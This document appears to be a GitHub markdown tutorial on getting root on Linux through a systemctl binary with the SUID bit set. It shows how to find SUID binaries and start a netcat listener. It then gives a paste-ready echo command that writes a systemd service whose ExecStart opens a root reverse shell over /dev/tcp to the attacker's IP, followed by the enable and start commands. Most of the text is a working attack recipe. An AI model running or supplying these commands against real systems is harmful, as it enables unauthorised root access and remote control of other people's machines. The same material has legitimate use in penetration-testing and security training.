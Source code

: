 # Expected conditions for **systemctl** exploit:
1. Having access to shell with non-root user.
2. Having netcat listener running locally on a random port:
<a name="netcat-section"></a>
```
nc -lvp 9999
```
1. **systemctl** command has SUID bit set.
   1. To check commands with SUID bit:
      ```
      find / -user root -perm -4000 -exec ls -ldb {} \;
      ```
      * **find** - search for
      * **/** - start search from root directory
      * **-user root** - condition saying that user must be root
      * **-perm 4000** - condition saying that file should have SUID bit set
      * **-exec** - execute command on each file that meets conditions
        * **ls -ldb** - execute **ls** command with attributes
        * **{}** - output placeholder
        * **\;** - the end of the -exec command

## Usage
1. Paste the below echo command in the remote shell:
```shell
echo "
[Unit]
Description=access root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<ip-address>/9999 0>&1'

[Install]
WantedBy=multi-user.target" >> /tmp/test.service
```
* Above echo saves **test.service** service into temporary file.
* **[Unit]** header that contains Description attribute of the service. Description can by anything.
* **[Service]** header contains **Type** attribute equal to **Simple** which tells service manager that service starts immediately after the main service process has been forked off. **ExecStart** attribute describes what command are executed when the service is started:
  ```
  /bin/bash -c 'bash -i >& /dev/tcp/<ip-address>/9999 0>&1'
  ```
  * **/bin/bash -c ''**: run command with bash
  * **bash -i**: starts bash in interactive mode
  * **>&**: redirect standard output and error
  * **/dev/tcp/<ip-address>/9999**: into special device file that allows to create TCP socket with your IP address under specific port number [(used previously in netcat listener)](#netcat-section)
  * **0>&1**: redirect standard input (0 file descriptor) where the standard input (1 file descriptor) is redirected - which is TCP socket

1. Enable service:
```sh
systemctl enable /tmp/test.service
```
1. Start service:
```sh
systemctl start test
```
'

